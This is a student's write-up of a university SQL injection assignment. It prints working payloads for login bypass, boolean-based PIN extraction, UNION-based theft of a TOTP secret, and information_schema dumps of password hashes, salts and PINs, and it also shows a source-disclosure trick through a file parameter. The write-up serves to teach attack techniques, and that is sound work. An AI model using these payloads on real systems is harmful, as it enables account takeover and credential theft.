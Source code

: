 # My solution of the SQL Injection Assignment

See [the assignment here](./SQL-Injection-Assignment.md).


# Task 1

First, I entered Username `endlemar` and password `'XXX`.

Luckily, the app returned a page with an error message:

```
Wrong SQL query: SELECT username FROM users WHERE username = 'endlemar' AND password = SHA1(CONCAT(''XXX', (SELECT salt FROM users WHERE username = 'endlemar')))
```

Seeing the whole query and the position of my “password” `'XXX`, I constructed the following value for `password` that
will result one row where username is `endlemar`:

```
')) OR 1 = 1 AND username = 'endlemar' -- 
```

**Note 1:** There is a trailing space in `-- `.

**Note 2:** The entered Username in the form does not affect the result of the SQL query when using this SQL injection.


## Task 2

Using the Hint #1 (Table `users` contains column `pin`), I constructed several queries (passwords) to find out what my
4-digits PIN is.

First, I found out that my PIN contains only digits 1, 3, 5, 7 using the queries in the following form (where `<number>`
is 0,..,9).

```
')) OR 1 = 1 AND username = 'endlemar' AND pin LIKE '%<number>%' -- 
```

That meant that there is only `4! = 16` possible PINs. However, I constructed additional queries to find out the digits'
relative precedence to each other (the condition evaluated to TRUE when `<i>` preceded `<j>`).

```
')) OR 1 = 1 AND username = 'endlemar' AND pin LIKE '%<i>%<j>%' -- 
```

Reducing the possible number of permutations this way, I quickly discovered that my PIN is `5371`.


## Task 3

Using the following query (password), I found out my secret is `E5XVZ2XDHS4SNGE2`:

```
')) AND 1 = 0 UNION SELECT secret FROM users WHERE username = 'endlemar' -- 
```

Once I had the secret, I created a new account using the secret as “a setup key” within the mobile Google Authenticator
app so that I could generate the corresponding OTPs. The generated OTPs worked I got in.

### Side note

Originally, I wanted to use this technique (with UNION) to find out my PIN. But it turns out that the app
must have some built-in protection against it:

```
')) AND 1 = 0 UNION SELECT pin FROM users WHERE username = 'endlemar' -- 
```

It seems that even though the SQL query succeeds and returns one username, the app checks whether the returned value is
from the user's table columns `username` and/or `secret`.

The following works:

```
')) AND 1 = 0 UNION SELECT 'endlemar' as username -- 
')) AND 1 = 0 UNION SELECT 'E5XVZ2XDHS4SNGE2' as username -- 
```

But the following does NOT work:

```
')) AND 1 = 0 UNION SELECT '5371' as username -- 
')) AND 1 = 0 UNION SELECT 'something' as username -- 
```


## Task 4

Once I successfully logged in, I started exploring the UI and all its features.
I noticed the link “Warning!” which led to the URL `https://kbe.felk.cvut.cz/index.php?open=warning.txt`.
Almost immediately I tried replacing `warning.txt` with `index.php`.
And to my pleasant surprise, the server responded with a highlighted source code of the index.php.
After a quick look, I figured it must be the same index.php that is actually running on the server.

**Note 3:** In fact, no login is needed to access https://kbe.felk.cvut.cz/index.php?open=index.php.
**Note 4:** The code (line 67) confirms my suspicions from [Task 3's Side note](#side-note).

The next feature I noticed was the pagination mechanism of messages which was using `offset` query parameter.
By looking into the code I quickly constructed offset values that helped me obtain the names of the database tables and
their column names:

```
0 UNION SELECT table_name, 1 FROM information_schema.tables
0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'users'
0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'messages'
0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'codes'

0 UNION SELECT CONCAT(username, '\t', password, '\t', pin, '\t', secret, '\t', salt), 1 FROM users
0 UNION SELECT CONCAT(username, '\t', base64_message_xor_key, '\t', date_time), 1 FROM messages
```

The database has 3 tables with the following columns:

* users
	* username
	* password
	* pin
	* secret
	* salt
* messages
	* username
	* base64_message_xor_key
	* date_time
* codes
	* username
	* aes_encrypt_code
